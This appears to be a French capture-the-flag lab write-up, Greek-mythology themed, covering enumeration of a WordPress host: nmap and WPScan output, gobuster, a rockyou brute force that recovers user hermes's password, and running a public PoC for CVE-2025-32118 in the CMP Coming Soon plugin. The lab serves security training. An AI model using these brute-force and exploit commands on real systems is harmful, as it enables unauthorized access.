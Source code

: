 # Énumération

## 🔍 Phase 1 : Reconnaissance Initiale

### Énumération Réseau

Commençons par découvrir les machines présentes sur le réseau cible.

```bash
# Scan de découverte du réseau
nmap -sn 192.168.56.1/24

# Résultat
Starting Nmap 7.93 ( https://nmap.org ) at 2025-07-06 23:27 CEST
Nmap scan report for 192.168.56.10
Host is up (0.00014s latency).
MAC Address: 08:00:27:58:FA:50 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.11
Host is up (0.00011s latency).
MAC Address: 08:00:27:BE:5F:A9 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.12
Host is up (0.00018s latency).
MAC Address: 08:00:27:95:2A:F9 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.100
Host is up (0.000040s latency).
MAC Address: 08:00:27:30:D7:D4 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.1
Host is up.
Nmap done: 256 IP addresses (5 hosts up) scanned in 12.95 seconds
```

!!! success "Découverte"
    Trois machines sont visible sur le réseau :  
    - **192.168.56.10**  
    - **192.168.56.11**
    - **192.168.56.12**

### Scan Complet de la Machine en .10

```bash
# Scan complet avec détection de services
nmap -sC -sV -p- 192.168.56.10

# Résultat
Nmap scan report for pantheon.god (192.168.56.10)
Host is up (0.0011s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-generator: WordPress 6.8.1
| http-robots.txt: 1 disallowed entry
|_/wp-admin/
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Pantheon
```

!!! info "Services Découverts"
    - **Port 22** : SSH (OpenSSH 7.6p1)
    - **Port 80** : HTTP (Apache 2.4.29 + WordPress 6.8.1)

## 🌐 Énumération Web

### Accès au Site Web

En accédant au port 80, nous sommes redirigés vers `pantheon.god`. Le site utilise WordPress 6.8.1.

### Énumération WordPress avec WPScan

```bash
# Scan agressif des plugins
wpscan --url "http://192.168.56.10/" --plugins-detection aggressive
```
<details>
<summary><strong>📋 Voir le scan WPScan complet</strong></summary>

```bash
wpscan --url "http://pantheon.god/" --plugins-detection aggressive
_______________________________________________________________
         __          _______   _____
         \ \        / /  __ \ / ____|
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \
            \  /\  /  | |     ____) | (__| (_| | | | |
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|

         WordPress Security Scanner by the WPScan Team
                         Version 3.8.28
       Sponsored by Automattic - https://automattic.com/
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart
_______________________________________________________________

[+] URL: http://pantheon.god/ [192.168.56.10]
[+] Started: Tue May 27 02:01:37 2025

Interesting Finding(s):

[+] Headers
 | Interesting Entry: Server: Apache/2.4.29 (Ubuntu)
 | Found By: Headers (Passive Detection)
 | Confidence: 100%

[+] robots.txt found: http://pantheon.god/robots.txt
 | Interesting Entries:
 |  - /wp-admin/
 |  - /wp-admin/admin-ajax.php
 | Found By: Robots Txt (Aggressive Detection)
 | Confidence: 100%

[+] XML-RPC seems to be enabled: http://pantheon.god/xmlrpc.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%
 | References:
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/

[+] WordPress readme found: http://pantheon.god/readme.html
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] Upload directory has listing enabled: http://pantheon.god/wp-content/uploads/
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 100%

[+] The external WP-Cron seems to be enabled: http://pantheon.god/wp-cron.php
 | Found By: Direct Access (Aggressive Detection)
 | Confidence: 60%
 | References:
 |  - https://www.iplocation.net/defend-wordpress-from-ddos
 |  - https://github.com/wpscanteam/wpscan/issues/1299

[+] WordPress version 6.8.1 identified (Latest, released on 2025-04-30).
 | Found By: Rss Generator (Passive Detection)
 |  - http://pantheon.god/feed/, <generator>https://wordpress.org/?v=6.8.1</generator>
 |  - http://pantheon.god/comments/feed/, <generator>https://wordpress.org/?v=6.8.1</generator>

[+] WordPress theme in use: twentytwentyfive
 | Location: http://pantheon.god/wp-content/themes/twentytwentyfive/
 | Latest Version: 1.2 (up to date)
 | Last Updated: 2025-04-15T00:00:00.000Z
 | Readme: http://pantheon.god/wp-content/themes/twentytwentyfive/readme.txt
 | [!] Directory listing is enabled
 | Style URL: http://pantheon.god/wp-content/themes/twentytwentyfive/style.css?ver=1.2
 | Style Name: Twenty Twenty-Five
 | Style URI: https://wordpress.org/themes/twentytwentyfive/
 | Description: Twenty Twenty-Five emphasizes simplicity and adaptability. It offers flexible design options, suppor...
 | Author: the WordPress team
 | Author URI: https://wordpress.org
 |
 | Found By: Css Style In Homepage (Passive Detection)
 | Confirmed By: Css Style In 404 Page (Passive Detection)
 |
 | Version: 1.2 (80% confidence)
 | Found By: Style (Passive Detection)
 |  - http://pantheon.god/wp-content/themes/twentytwentyfive/style.css?ver=1.2, Match: 'Version: 1.2'

[+] Enumerating All Plugins (via Aggressive Methods)
 Checking Known Locations - Time: 00:04:30 <=======================================
 Checking Known Locations - Time: 00:22:44 <========================> (110793 / 110793) 100.00% Time: 00:22:44
[+] Checking Plugin Versions (via Passive and Aggressive Methods)

[i] Plugin(s) Identified:

[+] akismet
 | Location: http://pantheon.god/wp-content/plugins/akismet/
 | Latest Version: 5.4
 | Last Updated: 2025-05-07T16:30:00.000Z
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://pantheon.god/wp-content/plugins/akismet/, status: 403
 |
 | The version could not be determined.

[+] cmp-coming-soon-maintenance
 | Location: http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/
 | Last Updated: 2025-04-30T08:07:00.000Z
 | Readme: http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/readme.txt
 | [!] The version is out of date, the latest version is 4.1.15
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/, status: 200
 |
 | Version: 4.1.13 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 |  - http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/readme.txt

[+] feed
 | Location: http://pantheon.god/wp-content/plugins/feed/
 |
 | Found By: Known Locations (Aggressive Detection)
 |  - http://pantheon.god/wp-content/plugins/feed/, status: 200
 |
 | The version could not be determined.

[+] Enumerating Config Backups (via Passive and Aggressive Methods)
 Checking Config Backups - Time: 00:00:01 <===============================> (137 / 137) 100.00% Time: 00:00:01

[i] No Config Backups Found.

[!] No WPScan API Token given, as a result vulnerability data has not been output.
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register

[+] Finished: Tue May 27 02:24:34 2025
[+] Requests Done: 110950
[+] Cached Requests: 44
[+] Data Sent: 29.306 MB
[+] Data Received: 33.036 MB
[+] Memory used: 594.039 MB
[+] Elapsed time: 00:22:56
```

</details>

#### Résultats Importants

!!! warning "Vulnérabilités Découvertes"
    - **Plugin CMP Coming Soon** : Version 4.1.13 (obsolète, dernière version 4.1.15)
    - **Directory listing** activé sur `/wp-content/uploads/`
    - **XML-RPC** activé
    - **WP-Cron** activé

#### Détails du Plugin Vulnérable

```bash
[+] cmp-coming-soon-maintenance
 | Location: http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/
 | Last Updated: 2025-04-30T08:07:00.000Z
 | Readme: http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/readme.txt
 | [!] The version is out of date, the latest version is 4.1.15
 | [!] Directory listing is enabled
 |
 | Found By: Known Locations (Aggressive Detection)
 | - http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/, status: 200
 |
 | Version: 4.1.13 (80% confidence)
 | Found By: Readme - Stable Tag (Aggressive Detection)
 | - http://pantheon.god/wp-content/plugins/cmp-coming-soon-maintenance/readme.txt
```

### Énumération de Répertoires

```bash
# Énumération des répertoires avec gobuster
gobuster dir -w /opt/lists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt \
  -u http://olympe.god/wp-content \
  -x txt,html,php
```

#### Découverte Critique

!!! success "Fichier Important Trouvé"
    ```
    /notes.txt            (Status: 200) [Size: 391]
    ```

### Analyse du Fichier Notes.txt

```bash
# Contenu du fichier notes.txt
curl http://olympe.god/wp-content/notes.txt
```

!!! tip "Indice Important"
    Le fichier contient une note indiquant que tous les dieux devaient changer leurs mots de passe et mettre un `y`, mais seul Hermès ne l'a pas fait.

## 🔐 Recherche de Credentials

### Brute Force sur WordPress

Basé sur l'indice trouvé, nous tentons un brute force sur l'utilisateur `hermes` :

```bash
# Brute force avec rockyou.txt
wpscan --url http://192.168.56.10 \
  --usernames hermes \
  --passwords /usr/share/wordlists/rockyou.txt
```

!!! success "Credentials Trouvés"
    - **Utilisateur** : hermes
    - **Mot de passe** : mondieu

## 🎯 Analyse de la Vulnérabilité CMP Coming Soon

### Recherche de POC

La version 4.1.13 du plugin CMP Coming Soon est vulnérable. Nous trouvons un POC sur GitHub :

```bash
# Téléchargement du POC
git clone https://github.com/Nxploited/CVE-2025-32118
cd CVE-2025-32118
```

### Vérification de la Vulnérabilité

```bash
# Test du POC
python3 CVE-2025-32118.py -u http://olympe.god/wordpress -un hermes -p mondieu
```

!!! warning "Vulnérabilité Confirmée"
    Le plugin permet un bypass d'authentification et l'upload de fichiers malveillants.

## 📊 Résumé de l'Énumération

### Points d'Entrée Identifiés

| Service | Vulnérabilité | Vecteur d'Attaque |
|---------|---------------|-------------------|
| **WordPress** | Plugin CMP Coming Soon 4.1.13 | Authentification bypass |
| **SSH** | Credentials faibles | Brute force possible |
| **Apache** | Directory listing | Information disclosure |

### Credentials Découverts

| Utilisateur | Mot de Passe | Source |
|-------------|--------------|--------|
| **hermes** | mondieu | Brute force WordPress |

### Fichiers Sensibles

- `/wp-content/notes.txt` : Indices sur les credentials
- `/wp-content/uploads/` : Directory listing activé
- `/wp-content/plugins/cmp-coming-soon-maintenance/` : Plugin vulnérable

## 🎭 Contexte Mythologique

### Hermès - Le Messager Vulnérable

Dans la mythologie grecque, Hermès est le messager des dieux, rapide et rusé. Dans notre lab :

- **Vulnérabilité** : Credentials faibles (hermes:y → hermes:mondieu)
- **Rôle** : Point d'entrée vers l'Olympe numérique
- **Scénario** : Intercepter les messages divins pour accéder au royaume

### Indices Thématiques

Le fichier `notes.txt` fait référence à un décret de Zeus demandant aux dieux de changer leurs mots de passe, créant un contexte narratif cohérent avec la thématique mythologique.

## 🚀 Prochaines Étapes

Avec ces informations, nous pouvons maintenant :

1. **Exploiter la vulnérabilité CMP Coming Soon**
2. **Obtenir un shell sur la machine**
3. **Élever nos privilèges vers l'utilisateur hermes**
4. **Explorer l'environnement pour d'autres vecteurs**

---

*L'énumération révèle les premières failles dans la défense de l'Olympe. Hermès, le messager divin, a laissé ses secrets exposés...* ⚡ 
